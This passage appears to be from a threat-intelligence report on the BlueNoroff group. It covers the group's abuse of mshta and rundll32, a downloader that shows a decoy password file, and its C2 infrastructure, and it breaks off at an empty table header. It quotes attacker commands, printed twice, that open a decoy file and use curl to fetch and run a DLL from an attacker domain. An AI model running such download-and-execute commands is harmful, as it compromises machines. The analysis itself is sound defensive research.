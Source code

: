 
The Inproc.exe is a legitimate mshta.exe file (MD5 0b4340ed812dc82ce636c00fa5c9bef2), and the rwinsta.exe is a legitimate rundll32.exe file (MD5 ef3179d498793bf4234f708d3be28633). The Blockchain.pdf file is a malicious HTML application file spawned by the mshta.exe process. Unfortunately, we don’t have the HTA script (Blockchain.pdf), but we can assume the functionality of the script based on our telemetry – showing the decoy document and fetching the next stage payload.





# Create a decoy password file and open it.
cmd.exe" /c echo {PASSWORD}>%documents%\Userlink & notepad.exe %documents%\Userlink

# Fetch the payload with cURL command and execute.
cmd.exe" /c timeout 10 & curl perseus.bond/VcIf1hLJopY/shU_pJgW2Y/NX4SoGYuka/iiOHK5H35B/bM%3D -s -d md -A cur1-agent -o %documents%\macroor.dll& %documents%\macroor.dll #1 perseus.bond/VcIf1hLJopY/shU_pJgW2Y/NX4SoGYuka/iiOHK5H35B/bM%3D




12345

# Create a decoy password file and open it.cmd.exe" /c echo {PASSWORD}>%documents%\Userlink & notepad.exe %documents%\Userlink # Fetch the payload with cURL command and execute.cmd.exe" /c timeout 10 & curl perseus.bond/VcIf1hLJopY/shU_pJgW2Y/NX4SoGYuka/iiOHK5H35B/bM%3D -s -d md -A cur1-agent -o %documents%\macroor.dll& %documents%\macroor.dll #1 perseus.bond/VcIf1hLJopY/shU_pJgW2Y/NX4SoGYuka/iiOHK5H35B/bM%3D




Also, we observed this group introduce a new Windows executable-type downloader at this time. This malware (MD5 087407551649376d90d1743bac75aac8) spawns a fake password file while fetching a remote payload and executing it. Upon execution, it creates a fake file (wae.txt) to show a password composed of the string ‘password’ and fetches a payload from the embedded URL and loads it. This scheme, showing a password via notepad.exe, is a trick favored by the BlueNoroff group to avoid arousing the victim’s suspicion. Usually, the password contains the password needed to open the supplied encrypted decoy document.

Simple downloader with fake password file
It’s possible that the actor delivered the above Windows executable file in archive file format or disk image file format with an encrypted decoy document.
Infrastructure
While carrying out this research we found several C2 servers used by the actor. All the servers are hosted by VPS vendors as usual and several of them were resolved to the same IP address. The domain registration could be traced back to earlier in 2021, so this is an ongoing operation by the adversary.



Domain
IP
ISP
ASN

